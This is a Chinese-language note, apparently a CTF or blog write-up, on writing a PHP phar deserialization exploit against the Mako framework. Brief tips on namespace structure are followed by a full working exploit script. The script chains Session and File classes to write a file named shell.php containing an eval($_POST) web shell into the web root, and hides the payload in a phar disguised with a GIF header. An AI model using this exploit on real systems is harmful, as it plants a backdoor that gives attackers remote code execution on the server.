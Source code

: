 ### exp编写

**要点：  
1、在不同命名空间下，使用namespace xxx\\xxx\\xxx的形式编写，然后在该命名空间下实现类的编写。  
2、如果有一个类需要基础一个接口，那就写一个空的接口interface放在该类的上面，然后在implements该接口interface；注意如果是在不同命名空间下的话，需要分开写。  
3、如果需要在一个命名空间下调用其他的类，那就需要use xxxx\\xxx\\xxx\\类名的形式，定义一个类名，最终可以只通过类名实例化该类。  
4、编写完所有需要使用的类后，再书写一个namespace{}，在这里面进行phar文件的生成，或者是其他序列化payload的生成编写。  
5、new一个对象需要在\_\_construct函数里面进行，不能在类中直接赋值。**  
最终形成的exp：

```php
<?php
namespace mako\session\stores{
    interface StoreInterface{

    }
}

namespace mako\file{
    class FileSystem{

    }
}

namespace mako\session\stores{
    use mako\file\FileSystem;
    class File implements StoreInterface{
        protected $fileSystem;
        protected $sessionPath="/var/www/mako/public";//建议使用绝对路径

        public function __construct(){
            $this->fileSystem=new FileSystem();//指向FileSystem类对象
        }

    }
}

namespace mako\session{
    use mako\session\stores\File;
    class Session{
        protected $autoCommit=true;//入口条件
        protected $destroyed = false;//进入write函数
        protected $store;
        protected $sessionId="shell.php";//写入序列化数据（包含有一句话）的文件
        protected $sessionData = ["v1nd"=>'<?php eval($_POST[1]);?>'];//写入一句话
        public function __construct(){
            $this->store=new File();//指向File类对象
        }

    }
}

namespace {
    use mako\session\Session;
    $object = new Session(); //入口类
    $phar = new Phar('exp.phar');
    $phar -> startBuffering();
    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
    $phar ->addFromString('test.txt','test');  //添加要压缩的文件

//  $object -> data = 'v1nd';
    $phar -> setMetadata($object);  //将自定义meta-data存入manifest
    $phar -> stopBuffering();
}
```